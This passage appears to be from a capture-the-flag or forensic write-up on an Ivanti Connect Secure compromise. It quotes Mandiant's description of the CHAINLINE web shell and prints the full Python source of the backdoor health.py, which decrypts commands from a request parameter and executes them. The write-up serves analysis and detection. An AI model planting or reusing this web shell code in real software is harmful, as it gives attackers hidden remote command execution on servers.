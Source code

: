Now let's look at the python package `cav`.

## Python package cav
Googling `cav-0.1-py3.6.egg` sends me right to this paper from `Mandiant`, still about the `Ivanti Connect Secure` VPN issue: https://www.mandiant.com/resources/blog/investigating-ivanti-zero-day-exploitation

Here's what is said about  `cav-0.1-py3.6.egg`:
```
CHAINLINE Web Shell

After the initial exploitation of an appliance, Mandiant identified UNC5221 leveraging a custom web shell that Mandiant is tracking as CHAINLINE. CHAINLINE is a Python web shell backdoor that is embedded in a Ivanti Connect Secure Python package that enables arbitrary command execution.

CHAINLINE was identified in the CAV Python package in the following path: /home/venv3/lib/python3.6/site-packages/cav-0.1-py3.6.egg/cav/api/resources/health.py. This is the same Python package modified to support the WIREFIRE web shell.

Unlike WIREFIRE, which modifies an existing file, CHAINLINE creates a new file called health.py, which is not a legitimate filename in the CAV Python package. The existence of this filename or an associated compiled Python cache file may indicate the presence of CHAINLINE.
```

Looking into the `cav-0.1-py3.6.egg` file that we extracted, we indeed find this illegitimate file ( / Backdoor) `health.py`:
```
  -rw-rw-r--      1075   5-Dec-2022  09:34:00  cav/api/resources/health.py
```

## Backdoor health.py in python package cav
Here's the code of that backdoor from `home/venv3/lib/python3.6/site-packages/cav/api/resources/health.py`:
```python
class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode\
()
                return result, 200
        except Exception as e:
            return str(e), 501
```
